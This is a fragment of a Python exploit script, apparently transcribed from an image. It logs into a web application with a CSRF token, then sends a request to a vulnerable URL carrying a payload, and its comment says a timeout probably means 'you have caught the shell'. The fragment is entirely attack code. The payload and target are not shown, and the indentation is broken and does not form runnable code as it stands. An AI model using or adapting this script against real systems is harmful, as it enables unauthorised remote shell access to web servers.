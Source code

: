 ```python

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")				
		except:
			print("Exploit completed")
		
```